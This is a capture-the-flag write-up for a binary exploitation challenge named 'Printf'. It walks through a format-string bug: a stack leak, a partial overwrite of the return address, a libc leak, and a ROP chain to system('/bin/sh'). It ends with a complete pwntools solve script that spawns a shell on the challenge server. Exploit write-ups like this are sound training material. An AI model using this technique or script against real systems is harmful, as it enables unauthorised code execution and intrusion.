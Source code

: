 ## 1. Printf

author: 0x1337
points: 482

the checksec output shows everything is enabled

The decomp:
```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+Ch] [rbp-214h] BYREF
  char buf[520]; // [rsp+10h] [rbp-210h] BYREF
  unsigned __int64 v5; // [rsp+218h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  v3 = 1;
  memset(buf, 0, 0x200u);
  puts("Easy peasy printf, don't you think?");
  printf("I feel generous so have this: %p\n", &v3);
  puts("Show me what you've got!");
  printf("> ");
  read(0, buf, 0x200u);
  puts("Here we go!!");
  printf(buf);
  exit(0);
}
```

And as we can see, we indeed have a format string exploit here.
If you're unfamiliar with format strings i recommend you to first read this excellent [blog](https://axcheron.github.io/exploit-101-format-strings/) which explains most of the stuff required in detail.



First thing to note, is the stack leak we get by leak of `v3` var, this will help us greatly. Then we have a one-shot with format string to do out exploitation

With the stack leak we have, our best bet is to overwrite the `RIP` in `printf` stack frame when it's returning back to `main+204`. Put a bp on printf by doing `b *printf` and since i am using pwndbg
i inspect the function frame by doing `info frame` . The main idea here is to partial overwrite one byte of the saved return address which is right now `main+204` to `main` so that we can have another shot at doing format string attack after leaking some values

Let's start from the beginning
after getting the stack leak : `0x7ffdda72ce3c` and putting a breakpoint in printf we see

```
pwndbg> info frame
Stack level 0, frame at 0x7ffdda72ce30:
 rip = 0x7f79a64606f0 in printf; saved rip = 0x562166ab72dd
 called by frame at 0x7ffdda72d060
 Arglist at 0x7ffdda72ce20, args:
 Locals at 0x7ffdda72ce20, Previous frame's sp is 0x7ffdda72ce30
 Saved registers:
  rip at 0x7ffdda72ce28
```

We notice the offset from leak to rip is `-0x14` and saved return adddress is `0x562166ab72dd` which is indeed `main+204`, and main is `0x562166ab7211` so we only have to change one byte.
Time to craft out payload... Not very fun

First i find the offset to a controllable area in the buffer, which is 8. What i mean is, when we do something like `%8$p` we get this output:
```
Show me what you've got!
> %8$p
Here we go!!
0xa70243825
```
and 0xa7024385 is nothing but `%8$p` in hex in Little Endian, so the 8th index is part we have control over i.e start of our input buffer.

After finding the offset i figured i'll have to get a libc leak too  while changing the saved return address, so i make this payload

```python
pl = b'%3$p.%17c%10$hhn'+p64(rip)
```

Ok let's quickly deconstuct this payload, the `%3$p` is used for leaking a libc address, the `%17c` is for writing `0x11` onto the address i want to, and `%10$hhn` refers to 'write a byte on the 10th index' after which comes the address i want to overwrite in little endian format

The reason why it's 10 and not 8 is because, before writing the address i want to overwrite, the payload is 15 bytes long, filling up the 8th and 9th index so address will be on 10th index.

```
Note:
%hhn is for writing a byte
%hn is for writing 2 bytes
and %n is for writing 4 bytes
```

So we are able to change the return address and leak libc too at the same time! very awesome.

Now it's just trivial ROP, we will make use of pwntools to make our payload for us

```python
writes = { rip: pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}
pl = fmtstr_payload(8,writes)
```

the rip address is same as before, here we are just writing the rop chain normally

and finally get the shell.

The solve script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./printf_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal = ["alacritty",'-e','bash','-c']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",4646)
        context.noptrace=True

    return r


def main():
    r = conn()


    r.recvuntil(b'this: ')
    stack_leak = int(r.recvline(), 16)
    rip = stack_leak-0x14
    log.info(f"Stack leak : {hex(stack_leak)}")
    log.info(f"rip in printf:{hex(rip)}")
    off = 8
    pl = b'%3$p.%17c%10$hhn'+p64(rip)
    gdb.attach(r)
    r.sendlineafter(b'>',pl)
    r.recvline()
    libc.address = int(r.recvuntil(b'.')[:-1],16) -0x114887

    log.info(f"libc address: {hex(libc.address)}")
    gdb.attach(r)
    pop_rdi =  libc.address+0x2a3e5
    binsh = next(libc.search(b'/bin/sh'))
    ret =  libc.address+0x2a3e5+1
    writes = { rip: pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}
    pl = fmtstr_payload(8,writes)

    sleep(2)
    r.sendlineafter(b'>',pl)
    r.interactive()


if __name__ == "__main__":
    main()
```

